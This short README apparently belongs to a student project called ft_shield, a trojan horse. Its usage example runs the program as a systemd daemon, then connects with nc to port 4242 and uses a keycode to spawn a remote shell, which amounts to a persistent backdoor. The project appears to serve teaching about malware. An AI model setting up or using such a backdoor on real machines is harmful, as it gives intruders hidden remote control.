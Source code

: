 ## Introduction
A trojan horse is a type of malware 


<img width="645" alt="Screen Shot 2024-11-03 at 1 58 51 PM" src="https://github.com/user-attachments/assets/68dea762-c601-41db-95b8-ca6cf3d2d42c">

## Usage Example
# Start the program
    $ ./ft_shield
# Verify daemon is running
    $ systemctl status ft_shield.service
# Connect to daemon
    $ nc addr_ip 4242
    Keycode: 42
    $> shell
    Spawning shell on port 4242
